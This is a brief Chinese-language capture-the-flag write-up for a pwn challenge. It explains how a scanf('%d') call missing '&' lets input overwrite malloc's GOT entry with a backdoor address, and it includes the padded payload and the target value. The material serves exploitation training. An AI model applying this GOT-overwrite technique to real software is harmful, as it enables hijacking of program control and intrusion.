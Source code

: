 ## scanf
scanf %d 没加&
会写栈中地址，栈中地址可控
向malloc got中写后门即可

```
name = 'a'*200+'xP@' # xP@ <- (malloc.got)
goal = 4201717 # <- backdoor
```
